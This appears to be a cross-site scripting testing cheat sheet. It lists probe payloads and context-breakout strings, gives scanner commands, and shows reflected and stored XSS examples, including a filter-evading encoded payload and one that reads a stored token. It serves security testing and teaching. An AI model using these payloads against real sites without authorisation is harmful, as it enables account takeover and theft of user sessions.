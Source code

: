    - Probe Payloads:
     * Basic: `<script>alert(1)</script>`
     * SVG: `<svg onload=alert(1)>`
     * MathML: `<math><maction actiontype="statusline#alert(1)">`

## Context Analysis:

- HTML Context:
     `<div>USER_INPUT</div> → </div><script>alert(1)</script>
   
- Attribute Context:
     `<input value="USER_INPUT"> → " onmouseover="alert(1)`
   
- JavaScript Context:
     `<script>var name = 'USER_INPUT';</script> → ';alert(1);//`

## Tools:

   - Manual Testing: Browser DevTools (Elements/Console tabs)
   - Automated: 
     * Burp Scanner
     * OWASP ZAP: `zap-cli --quick-scan -s xss`
     * XSStrike: `python3 xsstrike.py -u "https://site.com/search?q=test"`
     * Caido

# BASIC XSS EXPLOITATION

## Reflected XSS:

### URL Based

```
https://vuln-site.com/search?q=<script>alert(document.domain)</script>
```

Where the exploit is encoded to get past filtering

```url
%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E
```

## Stored XSS in Web Pages

### Profile Field:

```html
## Stored as an image
<img src=x onerror=alert(localStorage.getItem('token'))>

## Stored in an iframe
<iframe src="javascript:alert(`Stored XSS`)">
```
